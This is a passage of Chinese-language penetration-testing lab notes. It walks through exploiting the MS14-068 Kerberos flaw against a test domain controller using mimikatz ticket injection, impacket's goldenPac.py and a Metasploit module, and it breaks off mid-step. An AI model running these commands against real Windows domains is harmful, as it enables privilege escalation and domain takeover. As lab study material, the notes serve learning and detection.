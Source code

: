 **将高权限票据注入内存**

在 mimikatz 中输入 (Injecting ticket: OK 表示注入成功)

```
kerberos::ptc "TGT_testuser@hacke.testlab.ccache"
```

[![IPNxHS.png](https://z3.ax1x.com/2021/11/01/IPNxHS.png)](https://imgtu.com/i/IPNxHS)

**验证权限**

``dir \\DC.hacke.testlab\c$``

[![IPaXTS.png](https://z3.ax1x.com/2021/11/01/IPaXTS.png)](https://imgtu.com/i/IPaXTS)

尝试失败，应该是域控的原因。emmm，现在只有这一个环境，就先暂停这个了。

#### 6.3 glodenPac.py

goldenPac.py 是一个用于对 Kerberos 进行测试的工具，它集成在 impacket 工具包中，存放在 impacket/examples 目录下。

goldenPac.py的命令格式如下：

```
python goldenPac.py 域名/域成员用户:域成员用户密码@域控制器地址
```

**安装 Kerberos 客户端**

Kali中默认不包含 Kerberos，所有要安装：

```
apt-get install krb5-user -y
```

**配合使用 PsExce 获取域控制器中的 shell**

使用 goldenPac.py 获取域控制器的 shell：

```
python goldenPac.py hacke.testlab/testuser:lyz.0831@192.168.1.1
```

goldenPac.py  是通过 PsExce 获得 shell 的，会产生大量的日志，加之 PsExce 已经被很多反病毒厂商列为危险文件，所以，在日常网络维护中，我们很容易就能发现攻击者使用 goldenPac.py 实现的恶意行为。

#### 6.4 msf

首先，打开Metasploit，找到MS14-068漏洞的利用脚本，执行如下命令:

```
use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
```

+ DOMAIN: 域名。
+ PASSWORD: 被提权用户的密码。
+  USER: 被提权的用户。
+  USER_SID: 被提权用户的 SID。
+ RHOST: 域控机器的IP

设置相关信息，exploit,生成 bin 文件:

